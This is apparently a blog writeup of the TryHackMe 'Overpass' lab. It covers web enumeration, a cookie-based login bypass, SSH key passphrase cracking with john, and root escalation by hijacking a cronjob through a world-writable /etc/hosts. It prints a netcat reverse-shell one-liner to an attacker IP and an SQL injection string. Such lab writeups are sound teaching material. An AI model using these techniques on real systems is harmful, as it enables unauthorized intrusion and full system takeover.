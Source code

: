 ```yaml
---
layout: post
title:  "Overpass - TryHackMe writeup"
date:   2024-08-21 10:00:00 +0200
categories: tryhackme ctf writeup
---
```

{:refdef: style="text-align: center;"}
[![Challenge logo](/assets/overpass/0_title.png)](/assets/overpass/0_title.png){:target="_blank"}
{:refdef}

**CTF Name**: [Overpass](https://tryhackme.com/r/room/overpass){:target="_blank"}  
**Description**: What happens when some broke CompSci students make a password manager?  
**Categories**: Linux, Web Application, OWASP Top 10, Privilege Escalation  
**Difficulty**: Easy  

Let's begin with the usual enumeration. Scanning the target with **nmap** reveals that it is exposing something on port **80**.

{:refdef: style="text-align: center;"}
[![Nmap scan](/assets/overpass/1_nmap.png)](/assets/overpass/1_nmap.png){:target="_blank"}
{:refdef}

While nmap finishes its job, let's visit the target with a browser to take a look at the website it is serving.

{:refdef: style="text-align: center;"}
[![Website](/assets/overpass/2_website.png)](/assets/overpass/2_website.png){:target="_blank"}
{:refdef}

Scanning the website with **gobuster** reveals an interesting directory, **/admin**.

{:refdef: style="text-align: center;"}
[![Gobuster](/assets/overpass/3_gobuster.png)](/assets/overpass/3_gobuster.png){:target="_blank"}
{:refdef}

On this page we can see a login form. There are several ways to break login forms, but many seem unfeasible. Default insecure credentials such as **admin:admin**, **admin:password**, or **admin:123456** do not seem to work. Trying to bypass the authentication form with **SQL Injection** (by inserting **' OR 1 = 1;--** in either field) does not seem to work either. **Cross Site Scripting** also seems unfeasible.

Going back to inspect the default page's code, nothing useful can be found (except for a funny comment).

{:refdef: style="text-align: center;"}
[![Website source code](/assets/overpass/4_page_source.png)](/assets/overpass/4_page_source.png){:target="_blank"}
{:refdef}

Switching to the console tab, however, displays a "Hello World" message. Have the developers forgot to remove some test code? Or perhaps some code may be revealing information about our target.

{:refdef: style="text-align: center;"}
[![Console](/assets/overpass/5_console.png)](/assets/overpass/5_console.png){:target="_blank"}
{:refdef}

Going back to **/admin** we can notice that not only does this happen again, but when observing the downloaded JavaScript code there are two more files that may be of interest.

{:refdef: style="text-align: center;"}
[![JavaScript files](/assets/overpass/6_js_files.png)](/assets/overpass/6_js_files.png){:target="_blank"}
{:refdef}

The file responsible for the "Hello World" message is **main.js**, which only does this. The **cookie.js** file seems like a one-liner that defines a custom cookie, while the **login.js** file seems more of interest.

Inspecting this file reveals that the **login()** function that handles the login process is expecting a response from the API. This response is either "**Incorrect credentials**", or a value for a cookie that has "**SessionToken**" as key. We could try setting this cookie's value to something specific, hoping that it is enough to bypass the login form.

{:refdef: style="text-align: center;"}
[![Login form](/assets/overpass/7_login_js.png)](/assets/overpass/7_login_js.png){:target="_blank"}
{:refdef}

Running **Cookies.set("SessionToken", "admin")** in the console will set the value for "**SessionToken**" to be "**admin**".

**Note**: you may have to enable pasting commands into the console by following the instructions provided by your browser. Some browsers require this as a form of prevention.

{:refdef: style="text-align: center;"}
[![Setting the malicious cookie](/assets/overpass/8_malicious_cookie_1.png)](/assets/overpass/8_malicious_cookie_1.png){:target="_blank"}
{:refdef}

Now refreshing the page will let us in as the website is not managing authentication properly. We can see the cookie we just set, and also the administrator dashboard.

{:refdef: style="text-align: center;"}
[![The malicious cookie was saved](/assets/overpass/9_malicious_cookie_2.png)](/assets/overpass/9_malicious_cookie_2.png){:target="_blank"}
{:refdef}

Here we meet some interesting information: we get to know that **James** is a user that can log in via **SSH**, and we even get his **private SSH key**.

{:refdef: style="text-align: center;"}
[![Private SSH key](/assets/overpass/10_private_key.png)](/assets/overpass/10_private_key.png){:target="_blank"}
{:refdef}

After copying this key into a file and changing its permissions with **chmod 400 KEYFILE** (to avoid the "**Unprotected private key file!**" error) we can finally try SSHing into the target machine, but we will be met by a prompt asking for a **passphrase**. We still cannot use this private key as it has to be decrypted (as the page and the key's header themselves were also telling us).

{:refdef: style="text-align: center;"}
[![Passphrase requested](/assets/overpass/11_passphrase.png)](/assets/overpass/11_passphrase.png){:target="_blank"}
{:refdef}

Before actually cracking this key we have to transform it into a suitable format. Running **ssh2john KEYFILE > HASHFILE** will output a crackable hash into the file **HASHFILE**.

**Note**: if you are not running Kali Linux (or if you are using an older version) you may have to install this tool. To do so, simply download it with

{% highlight bash %}
curl https://raw.githubusercontent.com/magnumripper/JohnTheRipper/bleeding-jumbo/run/ssh2john.py -o ssh2john.py
{% endhighlight %}

and then run **python3 ssh2john KEYFILE > HASHFILE**.

{:refdef: style="text-align: center;"}
[![Converting the encrypted private key](/assets/overpass/12_ssh2john.png)](/assets/overpass/12_ssh2john.png){:target="_blank"}
{:refdef}

We can now crack this hash with **sudo john HASHFILE -w=/usr/share/wordlists/rockyou.txt**.

It won't take long before James' passphrase is in our hands.

{:refdef: style="text-align: center;"}
[![Cracking the passphrase](/assets/overpass/13_cracked_passphrase.png)](/assets/overpass/13_cracked_passphrase.png){:target="_blank"}
{:refdef}

We can now SSH into the target machine.

Exploring the **/home** directory (James' directory in particular) we can find the **user.txt** file which contains the first flag of this challenge.

{:refdef: style="text-align: center;"}
[![User flag](/assets/overpass/14_user_flag.png)](/assets/overpass/14_user_flag.png){:target="_blank"}
{:refdef}

There is another file in this directory, **todo.txt**, which may be of interest. As a matter of fact, reading this file we learn that there is an automated build script running somewhere. Let's see... if there are any **cronjobs** that run this script by reading **/etc/crontab**...

Indeed, there is a cronjob that downloads a script and then runs it in bash... with **root privileges**! This actually happens every minute.

{:refdef: style="text-align: center;"}
[![Crontab](/assets/overpass/15_crontab.png)](/assets/overpass/15_crontab.png){:target="_blank"}
{:refdef}

Since this script is downloaded and ran as **root**, we could easily provide a malicious script to escalate our privileges. We do not have control over the machine that serves this file, but if we had **write access** to the **/etc/hosts** file we could create an entry that would resolve to a server we can actually control. The malicious server will then serve a script which would get executed as root on our target machine.

Running **ls -l /etc/hosts** we can see that it is indeed **world-writable**.

{:refdef: style="text-align: center;"}
[![Hosts file](/assets/overpass/16_etc_hosts.png)](/assets/overpass/16_etc_hosts.png){:target="_blank"}
{:refdef}

Reading it we can see that there is an entry for **overpass.thm** already, so let's comment it out and add our own entry. Our entry will resolve to the IP address of our attacking machine. From now on, each request done on **overpass.thm** will be sent to our own machine.

We still have to create our own malicious script, so let's create a path that is similar to the one queried by the cronjob on our machine. From a comfortable directory in our attacking machine (which is **~/TryHackMe/Overpass** for me), we can run **mkdir downloads/** and **mkdir downloads/src/** to create the appropriate path, while **touch downloads/src/buildscript.sh** will create the file.

Before editing this file, let's go back to the target machine and verify that **netcat** is installed and that it supports the **-e** flag.

{:refdef: style="text-align: center;"}
[![Checking that netcat supports an appropriate flag](/assets/overpass/17_netcat.png)](/assets/overpass/17_netcat.png){:target="_blank"}
{:refdef}

Unfortunately it doesn't, but that won't stop us!

Let's go back to our machine and edit the newly created script to open a reverse shell to our own machine with the following one-liner:

{% highlight bash %}
/tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc YOUR_IP_ADDRESS PORT >/tmp/f
{% endhighlight %}

Remember to use your own IP address and a port number of your choice.

{:refdef: style="text-align: center;"}
[![Setting up the reverse shell](/assets/overpass/18_reverse_shell_script.png)](/assets/overpass/18_reverse_shell_script.png){:target="_blank"}
{:refdef}

Now let’s run a listener on our attacking machine with **nc -lvnp 4444** and make our home directory available by running **python -m http.server 80** (this runs a **HTTP server** on port **80**) in another terminal window, and in less than a minute we should receive a connection from the target machine.

{:refdef: style="text-align: center;"}
[![HTTP server](/assets/overpass/19_HTTP_server.png)](/assets/overpass/19_HTTP_server.png){:target="_blank"}
{:refdef}

{:refdef: style="text-align: center;"}
[![Root shell](/assets/overpass/20_root_shell.png)](/assets/overpass/20_root_shell.png){:target="_blank"}
{:refdef}

Normally we would be interested in converting this shell to a fully interactive shell, but as the objective - the **root flag** - is right around the corner we can just reach it this way.

If you’re interested in converting this shell in a fully interactive one, you can read how to in my previous writeup, [LazyAdmin]({% link portfolio/_posts/2024-08-19-Lazy-Admin.markdown %})!